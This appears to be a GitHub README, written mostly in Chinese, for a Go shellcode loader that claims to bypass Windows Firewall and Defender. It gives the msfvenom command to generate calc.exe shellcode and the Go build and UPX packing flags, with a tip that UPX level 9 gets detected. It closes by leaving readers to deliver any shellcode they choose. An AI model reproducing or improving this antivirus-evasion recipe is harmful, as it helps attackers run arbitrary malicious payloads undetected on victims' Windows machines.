



# goshellcode
golang run shellcode bypasses Windows Firewall and Defender

# 模拟打开windows的计算器

1.生成shellcode  
打开kali，打开一个 terminal，输入  
msfvenom -p windows/x64/exec CMD="calc.exe" -f hex -o calc.txt  
会在/home/kali/目录下生成calc.txt文件，里面是16进制shellcode  

2.编译代码  
#window安全中心，先关闭实时保护，不然编译golang代码不通过，提示不安全  
go build -ldflags="-w -s" -o sc.exe main.go && upx -8 sc.exe  
go build -ldflags="-H windowsgui -w -s" -o sc.exe main.go && upx -8 sc.exe （无边框）  
注意，这里upx压缩，不能用9，不然必被拦截（灵魂细节）

3.测试shellcode是否能过 Defender  
再次开启indow安全中心 实时保护，cmd下运行sc.exe 成功弹出计算器

4.至于shellcode以什么样的方式获取，可以尽情发挥了...
